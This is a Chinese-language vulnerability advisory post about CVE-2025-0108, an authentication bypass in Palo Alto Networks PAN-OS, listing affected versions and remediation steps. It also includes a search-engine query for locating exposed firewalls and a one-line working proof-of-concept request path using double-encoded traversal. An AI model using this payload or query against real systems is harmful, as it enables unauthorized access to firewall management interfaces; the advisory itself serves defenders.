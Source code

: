 #  【漏洞预警】Palo Alto Networks PAN-OS 身份验证绕过漏洞(CVE-2025-0108)   
PokerSec  PokerSec   2025-02-13 04:17  
  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
PAN-OS 是运行 Palo Alto Networks 下一代防火墙的软件，Palo Alto Networks PAN-OS 软件中的身份验证绕过功能使未经身份验证的攻击者能够通过网络访问管理 Web 界面，从而绕过 PAN-OS 管理 Web 界面所需的身份验证并调用某些 PHP 脚本。虽然调用这些 PHP 脚本不会启用远程代码执行，但它可能会对 PAN-OS 的完整性和机密性产生负面影响。  
  
漏洞编号  
  
CVE-2025-0108  
## 影响范围  
  
PAN OS 11.2 < 11.2.4-h4  
  
PAN OS 11.1 < 11.1.6-h1  
  
PAN OS 10.2 < 10.2.13-h3  
  
PAN OS 10.1 < 10.1.14-h9  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJIgnhn5oqpDVJjrQOxpItskxt1xhUiasibibjBjbHjxbuvvCmhniaVezXU5HFFouic6ibYQMEfZibiaZ1LjvQ/640?wx_fmt=png&from=appmsg "")  
## 搜索语法  
  
QUAKE: app:"Palo Alto 网络防火墙"  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/Ej4eNleprJIgnhn5oqpDVJjrQOxpItska3bdQy1ueGiajZicJyAaNQ9BJR9UkxuJ6nJ1TUib5eM8SJBglaBWwhGyg/640?wx_fmt=other&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  
```
/unauth/%252e%252e/php/ztp_gate.php/PAN_help/x.css
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJIgnhn5oqpDVJjrQOxpItskZh5ibSvfbPvHcg81NnIMicqYyhJaftmZsNmCibicyQ8NX7AedOz0dVhgaw/640?wx_fmt=png&from=appmsg "")  
  
## 漏洞分析  
  
  
https://slcyber.io/blog/nginx-apache-path-confusion-to-auth-bypass-in-pan-os/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJIgnhn5oqpDVJjrQOxpItsk38hNRdJPPuXSllzz7JobMUyUJLicY5mt6lpckgzhRMZKdrol8Up12eA/640?wx_fmt=png&from=appmsg "")  
  
## 修复意见  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJIgnhn5oqpDVJjrQOxpItskvfEtynKAt4Mb6Qkx0ddwW7dZnx4HVB4h6NCDf14FrbicYCnicaEobP1w/640?wx_fmt=png&from=appmsg "")  
1. 目前官方已有可更新版本，建议受影响用户升级至最新版本:  
https://security.paloaltonetworks.com/CVE-2025-0108  
  
1. 将对管理 Web 界面的访问限制为仅受信任的内部 IP 地址，可以大大降低此问题的风险  
  
如有侵权，请及时联系删除。  
  
  
